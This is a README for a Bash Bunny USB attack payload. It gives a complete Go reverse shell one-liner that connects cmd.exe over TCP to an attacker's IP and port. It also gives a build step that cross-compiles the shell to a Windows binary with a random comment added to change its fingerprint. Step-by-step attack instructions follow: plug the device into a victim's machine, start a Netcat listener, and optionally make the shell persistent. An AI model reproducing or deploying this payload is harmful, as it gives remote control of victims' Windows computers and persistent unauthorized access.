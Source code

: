 # Windows Reverse Shell for Bash Bunny using Golang

* Author: heywoodlh
* Version: 1.5

## Description

Opens a reverse shell using a compiled binary on staging machine and connects Windows victim machine back to remote attacking machine.
* Targets 64 bit Windows 10
* Deploys in roughly 15-20 seconds
* If desired, the reverse shell can be persistent

## Requirements

- Have a working Bash Bunny
- Have Golang installed on your staging machine

## STATUS

| LED                  | STATUS                         |
| -------------------- | ------------------------------ |
| Purple               | Setup                          |
| Amber (Single Blink) | Installing and running scripts |
| Green                | Finished                       |

## Installation and Execution

### Staging:

1. Plug in Bash Bunny in arming mode
2. Move files from WindowsReverseShell to either switch folder
3. Create a binary for the reverse shell

This example assumes the staging machine is a Unix/Unix-like machine with Golang installed and using a POSIX shell:

```bash
remote_ip="127.0.0.1"
remote_port="1337"


echo "package main;import \"time\";import\"os/exec\";import\"net\";func connect(){c,_:=net.Dial(\"tcp\",\"${remote_ip}:${remote_port}\");cmd:=exec.Command(\"cmd.exe\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}; func main(){for {connect();time.Sleep(10 * time.Second)}}" > /tmp/t.go &&\
	echo "// $(pwgen -N1 22)" >> /tmp/t.go &&\
	GOOS="windows" go build -o /tmp/shell.exe /tmp/t.go &&\
	rm /tmp/t.go
```

Then copy the resulting `/tmp/shell.exe` file to the switch folder on the Bash Bunny.

4. Edit the `run.ps1` file: edit the `$persistence` and `$volumeName` variables as desired
5. Unplug Bash Bunny and switch it to the position the payload is loaded on

### Attack:
1. Plug the Bash Bunny into your victim's Windows machine and wait until the final light turns green (about 15-20 seconds)
2. Unplug after the light turns green as the payload has been executed
3. On the remote attacking machine, set up a Netcat listener on the port you chose in the `run.ps1` file
   * Run the command `nc -nlvp 1337` (replace the port with the same in run.ps1)
4. A `cmd.exe` shell should appear

Notes: 
- If you set `$persistence` to 'True' in `run.ps1` then the script should always be running anytime the user is logged into their machine.

## Discussion

For support or feedback on the original Windows persistent reverse shell [go here](https://forums.hak5.org/topic/42729-payload-windows-persistent-reverse-shell/)

For support or feedback on heywoodlh's modified version [go here](https://github.com/heywoodlh/bash-bunny-examples/issues)
